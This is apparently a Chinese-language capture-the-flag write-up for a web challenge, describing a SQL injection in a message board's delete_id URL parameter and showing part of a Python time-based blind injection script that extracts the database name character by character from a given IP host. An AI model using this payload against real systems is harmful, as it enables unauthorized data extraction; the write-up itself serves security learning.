 ![](img/week3-web-4.png)  
上周的留言板是有个id可以注入，这周似乎没有什么能注入的地方。在留言那尝试了半天没啥进展，突然发现删除留言时，会在url里显示出删的留言的id。  
![](img/week3-web-2.png)  
然后就尝试了一下注入，发现什么都没过滤，连'和#都不需要用（用了反而报错。。。），还是用上周的脚本改了一下<s>（上周我为什么要时间盲注。。。)</s>  
其他基本不变就是多加了个cookie。
```python
#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, 8):
    for x in range(32, 127):
        payload = " and (if(ascii(substring((database()),{0},1))={1},sleep(3),null))"
        url = (host + payload.format(i, x))
        print(url)
        start_time = time.time()
```